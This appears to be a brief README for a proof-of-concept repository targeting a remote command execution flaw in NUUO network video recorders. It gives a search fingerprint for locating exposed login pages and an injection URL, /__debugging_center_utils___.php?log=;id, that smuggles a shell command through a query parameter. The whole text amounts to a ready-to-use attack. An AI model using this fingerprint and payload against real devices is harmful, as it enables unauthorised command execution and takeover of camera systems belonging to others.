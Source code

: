# NUUO_RCE_POC
NUUO摄像头远程命令执行漏洞验证脚本
# 指纹信息
title="Network Video Recorder Login"
# POC
POC:URL + /__debugging_center_utils___.php?log=;id


